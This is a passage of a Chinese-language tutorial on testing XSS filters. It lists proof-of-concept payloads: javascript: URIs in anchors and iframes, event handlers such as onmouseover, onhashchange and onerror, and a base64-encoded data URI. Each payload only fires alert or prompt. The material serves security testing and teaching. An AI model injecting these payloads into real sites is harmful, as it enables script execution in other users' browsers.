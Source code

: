 ```
<a href="http://www.google.com">Clickme</a>

```

> `<a`标签是否被过滤 href是否被过滤 href里的数据是否被过滤

如果没有数据被过滤，插入javascript协议看看：

```
<a href="javascript:alert(1)">Clickme</a>

```

> 是否返回错误 javascript的整个协议内容是否都被过滤掉，还是只过滤了javascript字符 尝试下大小写转换

继续测试事件触发执行javascript：

```
<a href="rhainfosec.com" onmouseover=alert(1)>ClickHere</a>

```

看onmouseover事件是否被过滤。测试一个无效的事件，看过滤规则：

```
<a href="rhainfosec.com" onclimbatree=alert(1)>ClickHere</a>

```

是完整的返回了呢，还是跟onmouseover一样被干掉了。

如果是完整的返回的话呢，那么意味着，做了事件的黑名单，但是在HTML5中，有超过150种的方式来执行javascript代码的事件测试一个很少见的事件：

```
<body/onhashchange=alert(1)><a href=#>clickit

```

### 测试其他标签

接下来测试其他的标签跟属性

#### Src属性

```
<img src=x onerror=prompt(1);>
<img/src=aaa.jpg onerror=prompt(1);> 
<video src=x onerror=prompt(1);>
<audio src=x onerror=prompt(1);>

```

#### iframe标签

```
<iframe src="javascript:alert(2)">
<iframe/src="data:text&sol;html;&Tab;base64&NewLine;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">

```

